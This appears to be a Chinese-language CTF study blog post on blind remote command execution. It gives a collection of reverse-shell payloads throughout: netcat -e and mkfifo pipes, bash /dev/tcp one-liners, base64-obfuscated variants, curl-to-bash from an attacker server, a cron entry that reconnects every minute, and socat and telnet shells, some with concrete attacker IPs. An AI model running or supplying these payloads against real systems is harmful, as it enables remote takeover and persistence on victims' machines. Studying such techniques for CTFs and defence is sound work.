

---
title: "RCE之无回显rce"
date: 2025-01-22T11:06:23+08:00
summary: "RCE之无回显rce"
url: "/posts/RCE之无回显rce/"
categories:
  - "对于RCE和文件包含的一点总结"
tags:
  - "RCE之无回显rce"
draft: false
---

## 0x01前言

刚好做到一个湘岚杯的题目是跟无回显rce有关的，就写篇文章去深入学习一下这个知识点

在我们做题的时候或者是测试的时候，通常会有命令执行后没有回显的情况，页面不会返回我们执行的结果，而我们也不知道命令是否执行成功，这时候就是讲到我们的无回显RCE了

## 0x02检验命令是否执行成功

由于页面不会返回执行的结果，所以我们同时也需要检查我们的命令是否成功执行，我这里的话推荐sleep命令

在Linux中sleep命令是用于指定操作系统休眠的命令，例如sleep 3的话就是让操作系统休眠3s，这个也可以作为一个测试命令是否执行的有效方法。

没有回显加上命令执行的话很容易就能想到反弹shell，这也是其中的一个方法之一

## 0x03反弹shell

参考文章 [反弹Shell，看这一篇就够了](https://xz.aliyun.com/t/9488?time__1311=n4%2BxnD0Du0YGq0KYGNnmDUrhxciBDRDR6OrYD)

反弹shell，就是攻击机监听在某个TCP/UDP端口为服务端，目标机主动发起请求到攻击机监听的端口，并将其命令行的输入输出转到攻击机，一旦连接成功，我们便可以在自己的机器上执行命令，仿佛直接操作目标机器的终端。(这样在一些有很多过滤的rce中也就避免了需要绕过的麻烦)

反弹shell通常用于什么情况呢?

- 目标机因防火墙受限，只能发送请求不能接收请求
- 目标机端口被占用
- 目标机位于局域网，或IP会动态变化，攻击机无法直接连接。
- 对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机，都是未知的。

当然这些都是相对于渗透测试中的，如果是在题目中的话

- 过滤掉很多命令执行的函数，无法直接进行rce
- 可以rce但是rce的结果并不会回显

### 正向连接

意思就是我们自己的机器直接去连接目标机器，假设我们攻击了一台机器，打开了目标机器的一个端口，然后通过目标ip:目标机器端口去连接机器，这种就相对来说比较常见，也就是正向连接。远程桌面、web服务、ssh、telnet等等都是正向连接。

### 反向连接

顾名思义就是反过来的了，反弹shell的情况都是不能正常利用正向连接的，要用反向连接。反向连接就是我们利用目标机器去主动连接我们的攻击机器

反弹shell的方式还是蛮多的，但是具体能用哪个得根据环境来确定。比如目标主机上如果安装有netcat，那我们就可以利用netcat反弹shell，如果具有python环境，那我们可以利用python反弹shell。如果具有php环境，那我们可以利用php反弹shell。

讲点实际的，就是反弹shell的方式

### 利用netcat反弹shell

Netcat(简称nc)是一款强大的网络工具，被称为"网络界的瑞士军刀"。它是一个简单却功能强大的命令行工具，可以用来读写网络连接，广泛用于网络调试、数据传输和服务测试等场景。

Netcat支持多种协议，如UDP和TCP协议。

- netcat能进行端口扫描

```
nc -zv 192.168.1.1 20-100
```

1. `-z`：扫描模式，不发送数据，仅检查端口是否开放。
2. `-v`：启用详细信息。
3. `192.168.1.1`：目标主机 IP。
4. `20-100`：扫描端口范围 20 到 100。

利用nc去反弹shell的命令有很多

```
远程主机开启监听端口
nc -lvvp [port]
目标机反弹shell
nc -e /bin/bash [host] [port](不同版本的nc不一定支持-e参数)

/bin/bash | nc [host] [port]

mknod backpipe p && nc [host] [port] 0<backpipe | /bin/bash 1>backpipe

nc  [host] [输入port]  |  /bin/bash  |  nc [host] [输出port]

rm -f /tmp/p; mknod /tmp/p p && nc [host] [port] 0/tmp/

当nc版本问题时：
rm /tmp/f ; mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1 | nc [host] [port] >/tmp/f
```



这里可以看到是可以成功的执行命令的

### 利用bash反弹shell

bash是最好用的一个反弹shell的方式了，但是不知道为什么本地测试没成功

具体命令就是

```
bash -i >& /dev/tcp/[host]]/[port] 0>&1
```

先来解释一下bash反弹一句话

| 命令                    | 命令详解                                                     |
| ----------------------- | ------------------------------------------------------------ |
| bash -i                 | 产生一个bash交互环境。                                       |
| >&                      | 将联合符号前面的内容与后面相结合，然后一起重定向给后者。     |
| /dev/tcp/[host]]/[port] | Linux环境中所有的内容都是以文件的形式存在的，其实大家一看见这个内容就能明白，就是让目标主机与攻击机47.xxx.xxx.72的2333端口建立一个tcp连接。 |
| 0>&1                    | 将标准输入与标准输出的内容相结合，然后重定向给前面标准输出的内容。 |

解读过程:Bash产生了一个交互环境和本地主机主动发起与攻击机2333端口建立的连接（即TCP 2333会话连接）相结合，然后在重定向个TCP 2333会话连接，最后将用户键盘输入与用户标准输出相结合再次重定向给一个标准的输出，即得到一个Bash反弹环境。

然后我结合湘岚杯的那道题的wp发现一个base64的bash反弹一句话

```
bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjQuMjIzLjI1LjE4Ni8yMzMzIDA+JjE=}|{base64,-d}|{bash,-i}'  //其中的base64字符是bash -i >& /dev/tcp/10.10.14.7/4444 0>&1的base64加密
```

bash反弹一句话可以根据具体的环境去进行变动，如果有关键字被过滤的话我们也可以利用这个去进行绕过

或者是这种

```
echo 
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNC4yMjMuMjUuMTg2LzQ0NDQgMD4mMQ== | base64 -d| 
bash
```

关于管道符

在 Unix/Linux 系统中，**管道符号（`|`）** 是一个非常重要的操作符，用于将一个命令的**输出**作为另一个命令的**输入**。

所以上面的payload中就是将前面的echo输出 的传递给base64 -d，然后base64 -d会将传入的编码进行解码然后传给后面的bash，bash会将解码后的命令当成shell命令执行

然后关于bash反弹还有很多姿势

#### curl配合bash反弹shell

这里的话其实也是借助了管道符号(|)去进行的

首先，在攻击者vps的web目录里面创建一个index文件（index.php或index.html），内容如下：

```
bash -i >& /dev/tcp/[host]/2333 0>&1
```

这个就是最常用的bash反弹一句话，然后我们开启监听端口2333

然后使用curl去远程加载（提前本地开启http）

```
curl [host]|bash
```

这个curl命令中的IP可以是任意格式的，可以是十进制、十六进制、八进制、二进制等等。

#### 将反弹shell的命令写入定时任务

```
*/1  *  *  *  *   /bin/bash -i>&/dev/tcp/[host]/2333 0>&1
#每隔一分钟，向47.xxx.xxx.72的2333号端口发送shell
```

- Cron 表达式，表示每分钟运行一次。
- **`*/1`**：表示每过1分钟执行一次。
- 后面的四个 `*` 分别表示每小时、每月、每周、每天都执行。

前提是我们必须要知道目标主机当前的用户名是哪个。因为我们的反弹shell命令是要写在 `/var/spool/cron/[crontabs]/<username>` 内的，所以必须要知道远程主机当前的用户名。否则就不能生效。

### 利用Socat反弹shell

和netcat功能相似，socat是Linux下的一个多功能的网络工具，直接讲payload

攻击机开启本地监听

```
socat TCP-LISTEN:2333 -
```

目标机主动连接攻击机

```
socat tcp-connect:[host]:2333 exec:'bash -li',pty,stderr,setsid,sigint,sane
```

### 利用Telnet反弹shell

当nc和/dev/tcp不可用，且目标主机和攻击机上支持Telnet服务时，我们可以使用Telnet反弹shell

payload:

**攻击机开启本地监听：**

```
nc -lvvp 2333
```

**目标机主动连接攻击机：**

```
mknod a p; telnet [host] 2333 0<a | /bin/bash 1>a
```

也有一个方法是需要开启两个本地监听的

payload:

**攻击机需要开启两个本地监听：**

```
nc -lvvp 2333
nc -lvvp 4000
```

**目标机主动连接攻击机：**

```
telnet 47.101.57.72 2333 | /bin/bash | telnet 47.101.57.72 4000
```

后面的话就是要讲到我们用脚本去实现反弹shell了，前面的这些方法都是我自己拿本地测试后一个个实践了的，多动手实操还是比单纯的看博客记笔记要好很多的
